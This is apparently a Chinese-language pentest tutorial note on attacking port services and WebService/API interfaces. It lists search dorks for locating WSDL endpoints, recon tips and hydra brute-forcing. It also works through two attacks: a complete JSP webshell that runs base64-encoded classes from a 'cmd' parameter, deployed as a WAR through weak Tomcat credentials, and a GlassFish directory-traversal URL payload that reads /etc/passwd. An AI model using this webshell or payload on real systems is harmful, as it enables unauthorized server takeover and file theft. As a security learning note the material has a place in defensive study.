

# 接口服务漏洞探针


## 端口服务类安全测试

根据前期信息收集针对目标端口服务类探针后进行的安全测试，主要涉及攻击方法：口令安全，WEB类漏洞，版本漏洞等，其中产生的危害可大可小。属于端口服务/第三方服务类安全测试面。一般在已知应用无思路的情况下选用的安全测试方案。 


## API接口-WebServiceRESTful API

根据应用自身的功能方向决定，安全测试目标需有 API 接口调用才能进行此类测试，主要涉及的安全问题：自身安全，配合 WEB，业务逻辑等，其中产生的危害可大可小，属于应用 API 接口网络服务测试面，一般也是在存在接口调用的情况下的测试方案。参考`https://xz.aliyun.com/t/2412`

### Api接口类

webapi的概念：网站的很多功能如产品管理，支付，短信等等，都不是自己开发的功能，而是调用的其它网站的api接口（相当于一个插件）

### WSDL

webservice接口调用传输数据的格式，是XML的一种。

#### 查找接口

1. 通过网站的界面和功能特点进行查找（如涉及到支付功能、短信验证等等）。

2. 通过爬虫语言扫描，发现网站的一些特定的URL。

```wsdl
inurl:jws?wsdl
inurl:asmx?wsdl
inurl:aspx?wsdl
inurl:ascx?wsdl
inurl:ashx?wsdl
inurl:dll?wsdl
inurl:exe?wsdl
inurl:php?wsdl
inurl:pl?wsdl
inurl:?wsdl
filetype:wsdl
```


分析WSDL的属性。


找出对应的接口



找出对应的服务地址


## web的信息收集

有端口和无端口可能是两套程序，两个目标！

子域名搜集，搜集的站点越多，目标越多，机会越多，可能越多！

whois信息查询，网站注册人查询

域名和ip地址映射的目录不同，所以对于目录和IP都需要扫描，作信息收集，ip与域名对应的端口，敏感文件信息扫描，一般情况下ip对应的是所有的网站，而域名对应一个网站。

网站备份文件下载。

可以对非http的通信进行本地爆破，可以使用`hydra`工具，例如MySQL，等等。

## 实例

### 端口服务类-tomcat弱口令安全问题


如何不通过Maven直接传WAR包，写一个jsp文件，然后将其压缩为zip格式，然后在将zip格式修改为war格式即可，jsp文件是一个一句话。其代码如下：

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
      Class base64;
      byte[] value = null;
      try {
        base64=Class.forName("sun.misc.BASE64Decoder");
        Object decoder = base64.newInstance();
        value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] {String.class }).invoke(decoder, new Object[] { str });
      } catch (Exception e) {
        try {
          base64=Class.forName("java.util.Base64");
          Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
          value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { str });
        } catch (Exception ee) {}
      }
      return value;
    }
%>
<%
    String cls = request.getParameter("cmd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(new Object[]{request,response});
    }
%>
```

蚁剑连接，测试成功，拿到shell。


### GlassFish 任意文件读取漏洞


java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

所以Payload为

`https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`


